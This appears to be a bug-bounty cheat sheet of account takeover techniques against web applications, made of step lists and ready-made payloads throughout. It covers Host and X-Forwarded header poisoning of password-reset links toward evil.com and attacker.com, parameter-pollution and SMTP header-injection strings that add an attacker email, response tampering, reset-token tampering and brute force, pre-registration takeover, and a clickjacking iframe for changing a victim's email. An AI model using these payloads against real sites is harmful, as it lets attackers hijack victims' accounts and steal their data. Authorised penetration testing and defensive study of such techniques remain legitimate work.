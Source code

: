 ## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```
##### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host: attacker.com
X-Forwarded-Origin: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Original-Url: attacker.com
X-Forwarded-Server: attacker.com
X-Host: attacker.com
X-Rewrite-Url: attacker.com
X-Originating-IP: 127.0.0.1
X-Forwarded-For: attacker.com
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-HTTP-Host-Override: attacker.com
Forwarded: attacker.com
X-Forwarded-Proto: attacker.com
```

Host Header Bypass Methods
```
GET /api/reset-password HTTP/1.1
Host: vulernable-website.com.evil.com

GET /api/reset-password HTTP/1.1
Host: vulernable-website.com?evil.com

GET /api/reset-password HTTP/1.1
Host: evil.com/vulernable-website.com

GET /api/reset-password HTTP/1.1
Host: evil.com%00vulernable-website.com
```

```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Click forgot passowrd and enter attacker email.
- Go to email and click on password reset link. See carefully the password reset link, if the link contatin the email using parameter change it with victim email
  or use both email using HPP techniques.
- If email found in POST body, change it with victim email or use both attacker and victim email using HPP.
- If no email found, try SMTP Header Injection techniques.
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

#### SMTP Header Injection & Email Parameter Manipulation
```
victim@mail.tld%0d%0acc:attacker@mail.tld

victim@mail.tld%0d%0abcc:attacker@mail.tld

email=victim@email.tld%20email=attacker@email.tld

email=victim@email.tld|email=attacker@email.tld

email="victim@mail.tld",email="attacker@mail.tld"

email=victim@email.tld:attacker@email.tld

{"email":["victim@email.tld","atracker@email.tld"]}
```

#### Response manipulation
```
HTTP/1.1 401 Unauthorized
{“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”}
----------------------------------------------------------------------------
HTTP/1.1 200 OK
{“message”:”success”,”statusCode:200,”errorDescription”:”Success”}
```

#### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

#### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```
*Sometime application uses username or firstname to create particular user's profile.*
*For example: https://site.com/user/bob/*
```
- Create an account and notice carefully application's naming convention.
- Change your account's username or firstname to some common name for admin panel i.e. admin, administrator, dashboard etc.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```
**While inviting users into your account/organization**
```
- Try inviting company emails and add a new field "password":"example123" or "pass":"example123" in the request.
  You may end up resetting a user password.
- For Company emails check on http://hunter.io.
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
